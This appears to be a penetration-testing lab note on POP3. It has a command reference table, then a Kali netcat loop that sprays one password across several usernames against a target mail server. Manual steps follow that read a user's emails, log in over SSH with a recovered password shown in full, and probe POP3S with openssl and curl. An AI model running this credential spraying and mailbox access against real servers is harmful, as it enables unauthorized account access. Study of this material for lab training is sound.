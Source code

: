 #### POP3 Commands

|**Command**|**Description**|
|---|---|
|`USER username`|Identifies the user.|
|`PASS password`|Authentication of the user using its password.|
|`STAT`|Requests the number of saved emails from the server.|
|`LIST`|Requests from the server the number and size of all emails.|
|`RETR id`|Requests the server to deliver the requested email by ID.|
|`DELE id`|Requests the server to delete the requested email by ID.|
|`CAPA`|Requests the server to display the server capabilities.|
|`RSET`|Requests the server to reset the transmitted information.|
|`QUIT`|Closes the connection with the POP3 server.|

#### POP3.sh

---
```bash - kali
for user in marcus john mailadmin jenny ryuu joe45; do

 ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC $TARGET 110; done
```

```
chmod +x pop3.sh
```

```
./pop3.sh
```

---

If script above does not work, do manually:

We see Ryuu has 2 messages.

```bash - kali
nc -nvC $TARGET 110
```

```bash - kali
USER ryuu
```

```bash - kali
PASS abcd
```

```bash - kali
RETR 1
```

```bash - kali
RETR 2
```

```bash - kali
ssh ryuu@$TARGET
```

```bash - kali
QUHqhUPRKXMo4m7k
```

#### OpenSSL - TLS Encrypted Interaction POP3
```
openssl s_client -connect $TARGET:pop3s

```

```shell-session
curl -k 'pop3s://$TARGET' --user username:pasword -v
```
